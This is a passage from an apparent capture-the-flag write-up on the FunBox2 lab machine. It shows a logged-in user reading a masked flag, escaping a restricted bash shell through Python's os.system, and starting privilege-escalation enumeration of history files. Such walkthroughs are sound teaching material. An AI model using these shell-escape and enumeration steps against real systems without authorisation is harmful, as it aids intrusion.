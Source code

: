 ```bash
See "man sudo_root" for details.

tom@funbox2:~$ id
uid=1000(tom) gid=1000(tom) groups=1000(tom),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

> Logging in with `tom` works!
{: .prompt-info }

---

# post exploitation
## get first flag
```bash
tom@funbox2:~$ ls
local.txt

tom@funbox2:~$ cat local.txt
a******************************f
```

## rbash
```bash
tom@funbox2:~$ cd ..
-rbash: cd: restricted
```

> Trying to `cd` out of the directory reveals that we are jailed in a restricted bash.
{: .prompt-danger }

In the next step we escape `rbash` by using `python`.

```bash
tom@funbox2:~$ python3
Python 3.6.9 (default, Jul 17 2020, 12:50:27) 
[GCC 8.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system('/bin/bash')
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

tom@funbox2:~$ cd ..
tom@funbox2:/home$
```

> We know have a full `bash` shell :-)
{: .prompt-info }

## privilege escalation
```bash
tom@funbox2:~$ ls -lsah
total 52K
4.0K drwxr-xr-x 6 tom  tom  4.0K Jan 13 09:44 .
4.0K drwxr-xr-x 3 root root 4.0K Jul 25  2020 ..
4.0K -rw------- 1 tom  tom   289 Jan 13 09:42 .bash_history
4.0K -rw-r--r-- 1 tom  tom   220 Apr  4  2018 .bash_logout
4.0K -rw-r--r-- 1 tom  tom  3.7K Apr  4  2018 .bashrc
4.0K drwx------ 2 tom  tom  4.0K Jan 13 09:19 .cache
4.0K drwxr-x--- 3 tom  tom  4.0K Jan 13 09:44 .config
4.0K drwx------ 3 tom  tom  4.0K Jan 13 09:44 .gnupg
4.0K -rw-r--r-- 1 tom  tom    33 Jan 13 09:00 local.txt
4.0K -rw------- 1 tom  tom   295 Jul 25  2020 .mysql_history
```